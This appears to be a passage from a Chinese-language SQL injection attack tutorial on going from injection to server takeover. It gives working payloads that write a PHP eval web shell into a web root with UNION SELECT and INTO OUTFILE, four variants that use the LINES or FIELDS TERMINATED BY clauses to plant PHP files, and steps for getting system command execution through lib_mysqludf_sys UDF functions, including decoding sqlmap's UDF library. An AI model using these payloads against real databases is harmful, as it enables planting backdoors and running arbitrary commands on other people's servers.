 #### 11.1.1 union select 后写入

```sql
select username, password from users where id="1" union select null,'<?php @eval($_REQUEST[1]);?>' into outfile '/var/www/html/webshell.php'
```

**注意**：在 windows 下的分隔符为 /（斜杠）。

#### 11.1.2 行分隔符写入

lines terminated by 在每行终止的位置添加 xx 内容

lines starting by 以每行开始的位置添加 xx 内容

fields terminated by 以每个字段的位置添加 xx 内容

COLUMNS terminated by 以每个字段的位置添加 xx 内容

```sql
--lines terminated by 写入
?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines terminated by '<?php phpinfo() ?>';

--lines starting by 写入
?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines starting by '<?php phpinfo() ?>';

--fields terminated by 写入
?id=1 into outfile 'C:/wamp64/www/work/webshell.php' fields terminated by '<?php phpinfo() ?>';

--COLUMNS terminated by 写入
?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' COLUMNS terminated by '<?php phpinfo() ?>';
```



### 11.2 用户自定义函数 - UDF

还可以利用「用户自定义函数」的方式，即 User Defined Functions(UDF) 来执行命令。通过 lib_mysqludf_sys 提供的函数可以执行**系统命令**关键语句:

- sys_eval()，执行任意命令，并将输出返回
- sys_exec()，执行任意命令，并将返回码返回
- sys_get()，获取一个环节变量
- sys_set()，创建或修改一个环境变量

#### 11.2.1 UDF 库文件获取

https://github.com/mysqludf/lib_mysqludf_sys

sqlmap/data/udf/mysql/

sqlmap 下的文件经过编码，需要使用 sqlmap/extra/cloak 目录下的 cloak.py 文件进行解码

```bash
# 解码文件
python cloak.py -d -i /path/to/sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_linux.so
```
